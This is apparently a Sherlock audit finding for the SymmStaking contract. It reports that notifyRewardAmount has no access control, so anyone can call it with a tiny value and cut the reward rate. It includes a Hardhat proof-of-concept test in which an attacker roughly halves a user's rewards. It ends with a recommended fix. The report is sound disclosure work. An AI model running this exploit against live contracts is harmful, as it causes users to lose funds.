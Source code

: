 Strong Ruby Cormorant

High

# Due to lack of access control in `notifyRewardAmount`, anyone can call this function with small values to disrupt the current reward rate

## Vulnerability Details

Attacker can call `notifyRewardAmount` at any time with any value bigger than 0 to disrupt the current reward rate.

For example if admin calls `notifyRewardAmount` with 604800 to start a period.

```text
state.rate = amount / state.duration;
state.rate = 604800 / 604800 // state.duration also equals 604800 - 1 week in seconds
state.rate = 1
```

If in the middle of the period an attacker calls `notifyRewardAmount` with the value 1, the rate would be decreased.

```text
remaining = state.periodFinish - block.timestamp;
remaining = = 604800 / 2 = 302400 (middle of the 1 week period)

leftover = remaining * state.rate;
leftover = 302400 * 1

state.rate = (amount + leftover) / state.duration;
state.rate = (1 + 302400) / 604800 = 0.5 // would round down to 0 in solidity, if using 18 decimals for rate and amounts, then it would be 0.5e18
```

## Coded POC

We can verify the disruption via the POC below. Please note there's more ways the attacker can disrupt/break the rate. For this POC we're demonstrating a scenario where the attacker calls `notifyRewardAmount` with 1 in the middle of a reward period.

The POC can be pasted in `token/tests/symmStaking.behavior.ts` inside "Reward Calculation" block, and executed with `npx hardhat test --grep "POC Sherlock"`

We can see that, without the attacker interference, the user rewards after one week would be 604797. But with the attacker interference it would be 302401.

```solidity
it("POC Sherlock: rewards without interference for 1 week would equal 604797n", async function () {
    const depositAmount = "604800"
    const rewardAmount = depositAmount

    await stakingToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
    await symmStaking.connect(admin).configureRewardToken(await stakingToken.getAddress(), true)
    await symmStaking.connect(admin).notifyRewardAmount([await stakingToken.getAddress()], [rewardAmount])

    await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
    await symmStaking.connect(user1).deposit(depositAmount, user1.address)

    await time.increase(604800)

    const user1BalanceBefore = await stakingToken.balanceOf(user1.address)
    await symmStaking.connect(user1).claimRewards()
    const user1BalanceAfter = await stakingToken.balanceOf(user1.address)
    const claimed = user1BalanceAfter - user1BalanceBefore

    expect(claimed).to.equal(604797n)
})

it("POC Sherlock: rewards with attacker interference in the middle of the 1 week period would equal 302401n", async function () {
    const depositAmount = "604800"
    const rewardAmount = depositAmount

    await stakingToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
    await symmStaking.connect(admin).configureRewardToken(await stakingToken.getAddress(), true)
    await symmStaking.connect(admin).notifyRewardAmount([await stakingToken.getAddress()], [rewardAmount])

    await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
    await symmStaking.connect(user1).deposit(depositAmount, user1.address)

    await time.increase(604800 / 2)

    // Attacker calls notifyRewardAmount with a small value in the middle of the 1 week period.
    const attackerDepositAmount = "1"
    const attacker = user2
    await stakingToken.connect(attacker).approve(await symmStaking.getAddress(), attackerDepositAmount)
    await symmStaking.connect(attacker).notifyRewardAmount([await stakingToken.getAddress()], [attackerDepositAmount])

    await time.increase(604800 / 2)

    const user1BalanceBefore = await stakingToken.balanceOf(user1.address)
    await symmStaking.connect(user1).claimRewards()
    const user1BalanceAfter = await stakingToken.balanceOf(user1.address)
    const claimed = user1BalanceAfter - user1BalanceBefore

    expect(claimed).to.equal(302401n)
})
```

## Code snippets

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L275

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L289

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L369-L375

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L198-L201

## Impact

User rewards will be affected and will result in loss of funds for users.

## Tools Used

Manual Review.

## Recommendations

Add access control in `notifyRewardAmount` so it can only be called by the admin or trusted addresses.
